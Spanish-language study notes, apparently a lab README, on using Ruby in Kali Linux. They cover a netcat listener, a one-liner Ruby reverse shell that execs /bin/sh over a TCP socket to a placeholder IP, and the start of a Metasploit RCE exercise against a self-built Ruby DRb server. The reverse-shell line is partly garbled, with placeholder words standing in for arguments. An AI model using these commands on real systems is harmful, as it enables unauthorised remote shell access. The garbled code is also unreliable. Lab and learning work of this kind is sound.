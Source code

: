 Esto en kali: 

Primero debo estar en modo escucha: `$ nc -lvp 9876`.

Luego:

```rb
~$ ruby rsocket -c's = TCPSocket.open("ip", 9876).to_i:exec sprintC("/bin/sh -i <%d >&%d 2>&%d", algo)'
```


### Reverse Shell

El script permititá establecer una conexión y enviar comandos.

stdin: estandar input o de ingreso de datos

stdout_and_stderr: estandar output y estandar error

En la terminal: `$ ruby reverse_shell.rb`

En metasploit con nc: `nc -lvp 9876`

=> `Se estableció la conexión`

=> hostname

=> kali

=> ip addr

=> ip

**************************************************************************


### Ataque RCE con Metasploit

> Crear un servidor web con Ruby, al cual nos conectaremos utilizando un exploit de Metasploit.

> Ejecución remota de código o RCE ha sido uno de los métodos preferidos por los hackers para infiltrarse en una red/máquinas. En pocas palabras, la Ejecución Remota de Código ocurre cuando un atacante explota un error en el sistema e introduce un malware. El malware explotará la vulnerabilidad y ayudará al atacante a ejecutar códigos de forma remota. Esto es similar a entregar el control de todo el equipo a otra persona con todos los privilegios de administración.[Fuente: Wiki](https://www.pchardwarepro.com/ataques-de-ejecucion-de-codigo-remoto-y-pasos-de-prevencion/)

Lo ejecuto en metasploit con: `ruby metasploit.rb`

En kali: 

```shell
$ sudo msfconsole
[sudo] password for kali:
[vaquita feliz]

       =[metasploit v5.0.101-dev]
+ -- --=[algo]

Metasploit tip: ...

msf5 > search drb

Matching Modules
================
...


```shell
msf5 > use 0
```
